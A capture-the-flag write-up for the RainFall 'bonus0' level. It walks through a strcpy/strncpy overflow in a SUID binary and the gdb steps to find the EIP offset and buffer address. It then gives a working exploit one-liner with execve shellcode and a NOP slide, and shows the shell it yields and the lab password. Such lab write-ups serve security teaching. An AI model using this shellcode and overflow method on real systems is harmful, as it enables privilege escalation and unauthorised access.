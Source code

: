 # Level bonus 0

## Vulnerability

strcpy() heap overflow

## Context

We find a binary with owner ```bonus1``` and SUID.
```
bonus0@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 bonus1 users 5566 Mar  6  2016 bonus0
```
When run it seems to accept 2 seperate inputs on stdin, and print them with a space between.
```
bonus0@RainFall:~$ ./bonus0
 -
wait...
 -
what?
wait... what?
```

## Solution

Longer strings reveal the buffer overflow weakness.
```
bonus0@RainFall:~$ ./bonus0
 -
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
 -
BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
AAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBB�� BBBBBBBBBBBBBBBBBBBB��
Segmentation fault (core dumped)
```
Investigating with gdb we find main calls ```pp()```. 
```pp()``` calls ```p()``` twice (which reads from stdin) and ```strcpy()```.

```p``` reads 4096 bytes into a buffer, then uses ```strncpy()``` to return the first 20 bytes.
```strncpy()```'s return is not null-terminated if the source is longer than destination.

Then, ```pp()``` calls ```strcpy()``` on ```strncpy()```'s return string... but it's not null-terminated soooooooooooo THINGS

Then when ```pp``` uses ```strcpy``` to copy the first string, without null termination it continues past the first string into the second.
This leads to us overflowing the main buffer, overwriting the EIP return address, and segfaulting.

Let's try to write our malicious code (which opens a shell) in the first string.
Then use the second string to overflow and write the address of our malicious code.

Using [this compact system call opening a shell](http://shell-storm.org/shellcode/files/shellcode-827.php) we create our malicious code. ```\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80```

### Find EIP offset

Then we need to find the EIP offset where to write the address of our malicious code. Using the following example with [this EIP offset tool](https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/), we find the EIP offset is 9.
```
bonus0@RainFall:~$ gdb -q bonus0
...
(gdb) run
Starting program: /home/user/bonus0/bonus0
 -
01234567890123456789
 -
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9...
Program received signal SIGSEGV, Segmentation fault.
0x41336141 in ?? ()
```
The buffer is 42 bytes (0x40 - 0x16), so we want to overwrite the return address at buffer[54].

### Find buffer address

To find the address of our malicious code
```
bonus0@RainFall:~$ gdb -q bonus0
...
(gdb) disas p
...
   0x080484d0 <+28>:	lea    -0x1008(%ebp),%eax ; buffer address
...
(gdb) break *p+28
Breakpoint 1 at 0x80484d0
(gdb) run
Starting program: /home/user/bonus0/bonus0
 -

Breakpoint 1, 0x080484d0 in p ()
(gdb) x $ebp-0x1008
0xbfffe640:	0x00000000
```
The buffer starts at ```0xbfffe640```. We will create a large NOP slide leading to our malicious code, so lets overwrite EIP wih an address somewhere on the NOP slide, let's say buffer + 100 ```0xbfffe6a4``` = "\xa4\xe6\xff\xbf".

### Build exploit strings

So we want to craft our first string:
1. A large NOP slide buffer leading to our malicious code - ```'\x90' * 3000```
2. our malicious shell code - ```\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80```

And our second string:
1. A buffer until we reach EIP - ```'B' * 14```
2. Address on NOP slide leading to our malicious code - ```\xa4\xe6\xff\xbf```
3. buffer single byte - ```'B'```

Lets provide these two to the binary.
```
bonus0@RainFall:~$ (python -c "print('\x90' * 3000 + 
'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80')"; python -c "print('B' * 14 + '\xa4\xe6\xff\xbf' + 'B')"; cat) | ~/bonus0
 -
 -
��������������������BBBBBBBBBBBBBB����B BBBBBBBBBBBBBB����B
whoami
bonus1
cat /home/user/bonus1/.pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```
Here is a handy one liner:
```
(python -c "print('\x90' * 3000 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80')"; python -c "print('B' * 14 + '\xa4\xe6\xff\xbf' + 'B')"; cat) | ~/bonus0
```

## Recreate Exploited Binary

As user ```bonus1```, in ```/tmp```, create and compile ```bonus0_source.c```
```
bonus1@RainFall:/tmp$ gcc bonus0_source.c -fno-stack-protector -z execstack -o bonus0_source
```
Edit permissions including suid, then move the binary to home directory.
```
bonus1@RainFall:/tmp$ chmod u+s bonus0_source; chmod +wx ~; mv bonus0_source ~
```
Exit back to user ```bonus0```, then pipe our exploit into the source. Luckily, p()'s buffer address is similar, so the return address doesn't need updating.
```
bonus1@RainFall:/tmp$ exit
exit
bonus0@RainFall:~$ (python -c "print('\x90' * 3000 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80')"; python -c "print('B' * 14 + '\xa4\xe6\xff\xbf' + 'B')"; cat) | /home/user/bonus1/bonus0_source
 -
 -
��������������������BBBBBBBBBBBBBB����B BBBBBBBBBBBBBB����B
whoami
bonus1
```

